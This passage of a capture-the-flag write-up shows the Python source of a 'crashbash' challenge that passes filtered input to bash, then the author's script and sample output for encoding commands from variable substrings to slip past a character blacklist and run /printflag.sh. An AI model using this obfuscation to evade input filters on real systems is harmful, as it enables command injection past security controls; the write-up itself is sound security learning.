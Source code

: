 ```python
    print('----------------------')
    do_run = True
    while do_run:
        try:
            inp = inputimeout(prompt='crashbash$ ', timeout=30)
            if 'q' == inp:
                print('Bye!')
                do_run = False
            elif NOT_ALLOWED.search(inp):
                print('Invalid input, bash crashed!')
            else:
                try:
                    subprocess.run(['/bin/bash', '-c', inp], stdin=subprocess.PIPE, timeout=20, cwd=directory)
                except subprocess.TimeoutExpired:
                    print("Timeout")
        except:
            print('Timeout, bye!')
            do_run = False

if __name__ == '__main__':
    main(create_tmp_dir())
```

So, I was convinced that there must be an "easier" way to solve this.

Upon inspecting env, I discovered a variable named REMOTE_HOST that contained the IP address connected to the box, which would give me the `.` character needed to run `/printflag.sh`.
That's when I came up with the following solution:

```bash
#!/bin/bash
comando="$*"
REMOTE_HOST=1.2.3.4 # mocking variable content inside the box
A=ABCDEFGHIJKLMNOPQRSTUVWXYZ B=$A${A,,}0123456789_/${REMOTE_HOST//[0-9]/}
echo -n 'A=ABCDEFGHIJKLMNOPQRSTUVWXYZ;B=$A${A,,}0123456789_/${REMOTE_HOST//[0-9]/};'

while read -n1 char; do
        (( ${#char} != 1 )) && { echo -n " "; continue; }
        for (( i=0; i<=${#B}; i++ )); do
                [ "${B:$i:1}" == "$char" ] && { echo -n "\${B:$i:1}"; break;}
                (( i == ${#B} )) && { echo "faltou $char"; exit; }
        done
done <<< "$comando"
```

```
./convert2.sh /printflag.sh B4sh_br0TH3rs
A=ABCDEFGHIJKLMNOPQRSTUVWXYZ;B=$A${A,,}0123456789_/${REMOTE_HOST//[0-9]/};${B:63:1}${B:41:1}${B:43:1}${B:34:1}${B:39:1}${B:45:1}${B:31:1}${B:37:1}${B:26:1}${B:32:1}${B:64:1}${B:44:1}${B:33:1} ${B:1:1}${B:56:1}${B:44:1}${B:33:1}${B:62:1}${B:27:1}${B:43:1}${B:52:1}${B:19:1}${B:7:1}${B:55:1}${B:43:1}${B:44:1}
```

<img width="722" alt="image" src="https://user-images.githubusercontent.com/2973929/234144048-423e3a2c-0ed6-4fdd-9a27-620927876c5b.png">

